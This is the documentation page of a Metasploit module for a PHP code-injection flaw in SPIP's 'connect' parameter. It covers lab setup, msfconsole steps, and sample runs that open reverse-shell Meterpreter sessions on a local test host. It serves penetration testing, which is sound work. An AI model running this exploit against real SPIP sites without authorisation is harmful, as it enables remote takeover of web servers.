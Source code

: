 ## Vulnerable Application

This module exploits a PHP code injection vulnerability in SPIP.
The vulnerability exists in the `connect` parameter, allowing an unauthenticated
user to execute arbitrary commands with web user privileges.
Branches 2.0, 2.1, and 3 are affected.
Vulnerable versions are < 2.0.21, < 2.1.16, and < 3.0.3.
This module is compatible with both Unix/Linux and Windows platforms, and has been successfully tested on SPIP 2.0.11 and SPIP 2.0.20
on Apache running on Ubuntu, Fedora, and Windows Server.

## Setup

On Ubuntu 20.04, download a vulnerable instance of SPIP:

```
wget https://files.spip.net/spip/archives/SPIP-v2-0-0.zip
```

Unzip it to a specific folder:

```
mkdir spip-site 
cp SPIP-v2-0-0.zip spip-site/ 
cd spip-site/ 
unzip SPIP-v2-0-0.zip
```

Install PHP 5.6 and the necessary extensions:

1. Add the PPA for PHP 5.6:

```
sudo add-apt-repository ppa:ondrej/php
sudo apt-get update
```

2. Install PHP 5.6 with SQLite extensions:

```
sudo apt-get install php5.6 php5.6-sqlite php5.6-sqlite3
```

3. Enable the required extensions in the PHP configuration file:

Open the PHP INI file for CLI:

```
sudo nano /etc/php/5.6/cli/php.ini
```

Add or uncomment the following lines:

```
extension=sqlite3.so
extension=pdo_sqlite.so
```

Serve the application (while in the newly created spip-site directory):

```
php5.6 -S 127.0.0.1:8000
```

Navigate to the following URL, select `sqlite` for the database, and complete the installation:

```
http://127.0.0.1:8000/ecrire/
```

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/spip_connect_exec`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `exploit`

## Options

No options

## Targets

### 0 (PHP In-Memory)

This uses an in-memory PHP payload to execute code.

### 1 (Unix/Linux Command Shell)

This executes a Unix or Linux command.

### 2 (Windows Command Shell)

This executes a Windows command.

## Scenarios

### SPIP 2.0.0 - Linux target - PHP In-Memory

```
msf6 exploit(multi/http/spip_connect_exec) > run http://192.168.1.36:8000/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 2.0.0
[+] The target appears to be vulnerable.
[*] 192.168.1.36:8000 - Attempting to exploit...
[*] Sending stage (39927 bytes) to 192.168.1.36
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 192.168.1.36:47020) at 2024-08-22 19:19:00 +0200

meterpreter > sysinfo 
Computer    : linux
OS          : Linux linux 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > 
```

### SPIP 2.0.0 - Unix/Linux Command Shell

```
msf6 exploit(multi/http/spip_connect_exec) > run http://192.168.1.36:8000/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 2.0.0
[+] The target appears to be vulnerable.
[*] 192.168.1.36:8000 - Attempting to exploit...
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 192.168.1.36:32794) at 2024-08-22 19:20:41 +0200

meterpreter > sysinfo 
Computer     : 192.168.1.36
OS           : LinuxMint 21.3 (Linux 5.15.0-113-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### SPIP 2.0.0 - Windows Command Shell

```
Somehow, I was unable to obtain a remote code execution (RCE) on my lab environment using the Windows Command Shell target. 
However, based on the exploit's design and its success on other platforms, it is expected to work. 
The issue might be specific to my lab setup.
```
